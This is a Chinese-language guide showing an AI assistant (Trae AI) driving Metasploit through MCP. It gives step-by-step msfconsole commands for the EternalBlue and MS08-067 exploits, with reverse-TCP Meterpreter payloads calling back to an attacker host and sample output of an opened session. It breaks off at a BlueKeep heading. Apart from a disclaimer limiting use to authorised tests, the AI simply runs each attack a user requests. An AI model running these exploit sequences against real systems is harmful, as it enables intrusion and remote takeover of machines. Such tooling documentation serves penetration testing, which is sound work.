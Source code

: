 # 漏洞利用範例 - Trae AI + Metasploit MCP

本文檔展示如何透過 Trae AI 使用 Metasploit 的 exploit 模組進行漏洞利用。

⚠️ **重要提醒：所有範例僅限於授權的滲透測試環境中使用**

## Windows 系統漏洞利用

### 1. MS17-010 EternalBlue 利用

**用戶提問：**
```
利用 MS17-010 漏洞攻擊 192.168.1.50 並獲取 Meterpreter shell
```

**Trae AI 操作流程：**
1. 選擇 exploit：`use exploit/windows/smb/ms17_010_eternalblue`
2. 設置目標：`set RHOSTS 192.168.1.50`
3. 選擇 payload：`set PAYLOAD windows/x64/meterpreter/reverse_tcp`
4. 設置回連 IP：`set LHOST 192.168.1.100`
5. 設置回連端口：`set LPORT 4444`
6. 檢查選項：`show options`
7. 執行攻擊：`exploit`

**預期結果：**
```
[*] Started reverse TCP handler on 192.168.1.100:4444
[*] 192.168.1.50:445 - Connecting to target for exploitation.
[+] 192.168.1.50:445 - Connection established for exploitation.
[*] Sending stage (200262 bytes) to 192.168.1.50
[*] Meterpreter session 1 opened
meterpreter >
```

### 2. MS08-067 NetAPI 利用

**用戶提問：**
```
對 Windows XP 系統使用 MS08-067 漏洞
```

**Trae AI 操作流程：**
1. 選擇 exploit：`use exploit/windows/smb/ms08_067_netapi`
2. 設置目標：`set RHOSTS 192.168.1.60`
3. 選擇目標系統：`set TARGET 0` (Windows XP SP0/SP1 Universal)
4. 設置 payload：`set PAYLOAD windows/meterpreter/reverse_tcp`
5. 配置回連設置：`set LHOST 192.168.1.100`
6. 執行攻擊：`exploit`

### 3. Windows RDP BlueKeep 利用

**用戶提問：**
```
測試目標是否存在 CVE-2019-0708 BlueKeep 漏洞
```
